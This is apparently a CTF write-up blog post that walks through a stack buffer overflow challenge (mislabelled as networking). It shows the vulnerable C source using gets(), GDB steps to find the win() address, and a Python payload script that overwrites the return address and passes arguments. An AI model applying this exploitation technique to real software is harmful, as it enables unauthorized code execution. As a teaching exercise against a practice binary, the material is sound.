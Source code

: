 ```yaml
---
layout: post
title: Hack@TheHarbor CTF - Foundations - Networking 
tags: [CTF]
comments: true
---
```


Hack@TheHarbor was a good CTF. Point3 hosted the CTF on their Escalate platform. I will show you, how  i solved all **Foundations - Networking** challenges.

#### Lets start..

1 - numberlesslove


![Crepe](https://raw.githubusercontent.com/Masscan/masscan.github.io/master/assets/img/bo2.1.png)

Download the binary to our system, make it executable and run the binary.

Like the previous challeneg, this binary is also just printing the input back to us, behaving like a echo program.

![Crepe](https://raw.githubusercontent.com/Masscan/masscan.github.io/master/assets/img/bo2.2.png)

Lets analyse the source code of this binary to know how it is working.

Here is the source code:
~~~
#include <stdio.h>
#include <stdlib.h>

void win(long long arg1, int arg2)
{
    if (arg1 != 0x14B4DA55 || arg2 != 0xF00DB4BE)
    {
        puts("Close, but not quite.");
        exit(1);
    }
    printf("You win!\n");
    char buf[256];
    FILE* f = fopen("./flag.txt", "r");
    if (f == NULL)
    {
        puts("flag.txt not found - ping us on discord if this is happening on the shell server\n");
    }
    else
    {
        fgets(buf, sizeof(buf), f);
        printf("flag: %s\n", buf);
    }
}
void vuln()
{
    char buf[16];
    printf("Type something>");
    gets(buf);
    printf("You typed %s!\n", buf);
}

int main()
{
    /* Disable buffering on stdout */
    setvbuf(stdout, NULL, _IONBF, 0);
    vuln();
    return 0;
}
~~~
From source code it is clear that we have to do the way we did for BufferOverflow #1 but we have to pass 2 arguments to win() function.

The function is checking the arguments we passed, we will get flag only after we pass the arguments in corrrect way.

But important thing is to note is the type of arg1 which is long long, which is 8 byte long.

Check more about 'C' data types.

So

arg1 =  0x0000000014B4DA55

arg2 =  0xF00DB4BE

Lets do it.

Like before first step is to controll eip register. I was managed to control eip register as you can see on the below image.

![Crepe](https://raw.githubusercontent.com/Masscan/masscan.github.io/master/assets/img/bo2.3.png)

So now we controlled eip, controlled eip with 4 B's (BBBB=0X42424242).

Next step is to find the address of win() function and overwrite eip with that so win() function will get executed.

On  GDB type **disas win** and take the starting address of win() function.

![Crepe](https://raw.githubusercontent.com/Masscan/masscan.github.io/master/assets/img/bo2.4.png)

adress of win() = 0x080491c2

Now we can craft our payload...

**payload = "A"*28 + address_of_win() +dummy_return + arg1 + arg2**

Create a file called exploit.py with the below contents.

exploit.py:
~~~
buffer = ""

#junk data
buffer += "A"*28 

#address of win() 0x080491c2
buffer += "\xc2\x91\x04\x08"

#dummy return address 0xf7e0b7a0
buffer += "\xa0\xb7\xe0\xf7"

#arg1 0x0000000014B4DA55
buffer += "\x55\xda\xb4\x14\x00\x00\x00\x00"

#arg2 0xF00DB4BE
buffer += "\xbe\xb4\x0d\xf0"

print buffer 
~~~

Lets do the final thing....

![Crepe](https://raw.githubusercontent.com/Masscan/masscan.github.io/master/assets/img/bo2.5.png)

So it is done.

Lets do it in the remote server...

![Crepe](https://raw.githubusercontent.com/Masscan/masscan.github.io/master/assets/img/bo2.6.png)

We got the flaaaaag ...    :)
